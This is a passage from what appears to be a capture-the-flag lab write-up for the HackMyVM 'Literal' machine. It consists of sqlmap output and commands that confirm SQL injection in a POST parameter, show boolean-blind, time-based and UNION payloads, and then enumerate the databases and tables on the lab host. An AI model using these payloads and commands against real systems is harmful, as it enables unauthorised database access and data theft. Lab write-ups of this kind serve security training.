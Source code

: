 ```bash
POST parameter 'sentence-query' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 65 HTTP(s) requests:
---
Parameter: sentence-query (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: sentence-query=done' AND 7465=7465 AND 'oTFB'='oTFB

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sentence-query=done' AND (SELECT 7754 FROM (SELECT(SLEEP(5)))IPZy) AND 'MIFr'='MIFr

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: sentence-query=done' UNION ALL SELECT NULL,NULL,CONCAT(0x716b626b71,0x78415845785158744b6b6255754b4d6258544349794b7952465a77775972717246754b4578435963,0x716a6a6271),NULL,NULL-- -
---
[16:18:45] [INFO] the back-end DBMS is MySQL
<SNIP>
[*] ending @ 16:18:45 /2024-09-30/
```

## Exploitation

The parameter appears to be vulnerable to SQL injection. Let's use this vulnerability to enumerate the database and dump important contents.
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/Literal/Scans/Web]
└─$ sqlmap -u http://blog.literal.hmv/next_projects_to_do.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: PHPSESSID=vmbc58cd7jbarcmhtmfv83t6mt" --data "sentence
-query=done" --dbs --batch
<SNIP>
[16:23:02] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12
[16:23:02] [INFO] fetching database names
available databases [4]:
[*] blog
[*] information_schema
[*] mysql
[*] performance_schema

[16:23:02] [INFO] fetched data logged to text files under '/home/pentester/.local/share/sqlmap/output/blog.literal.hmv'
[*] ending @ 16:23:02 /2024-09-30/

┌──(pentester㉿kali)-[~/…/HackMyVM/Literal/Scans/Web]
└─$ sqlmap -u http://blog.literal.hmv/next_projects_to_do.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: PHPSESSID=vmbc58cd7jbarcmhtmfv83t6mt" --data "sentence
-query=done" -D blog --tables --batch
<SNIP>
[16:25:08] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12
[16:25:08] [INFO] fetching tables for database: 'blog'
Database: blog
[2 tables]
+----------+
| projects |
| users    |
```